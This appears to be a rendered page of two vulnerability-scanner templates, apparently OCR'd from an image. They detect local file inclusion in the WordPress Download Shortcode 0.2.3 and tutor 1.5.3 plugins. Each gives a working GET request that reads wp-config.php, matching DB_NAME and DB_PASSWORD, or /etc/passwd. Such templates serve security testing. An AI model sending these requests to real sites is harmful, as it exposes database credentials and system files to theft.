 # WordPress Download Shortcode 0.2.3 - Local File Inclusion

## Description

- WordPress Download Shortcode 0.2.3 is prone to a local file inclusion vulnerability because it fails to sufficiently sanitize user-supplied input. Exploiting this issue may allow an attacker to obtain sensitive information that could aid in further attacks. Prior versions may also be affected.
- severity - high
- tags - lfi,shortcode,wp,packetstorm,wordpress,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/force-download.php?file=../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress tutor 1.5.3 - Local File Inclusion

## Description

- WordPress tutor.1.5.3 is vulnerable to local file inclusion.
- severity - high
- tags - wordpress,wp-plugin,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/tutor/views/pages/instructors.php?sub_page=/etc/passwd
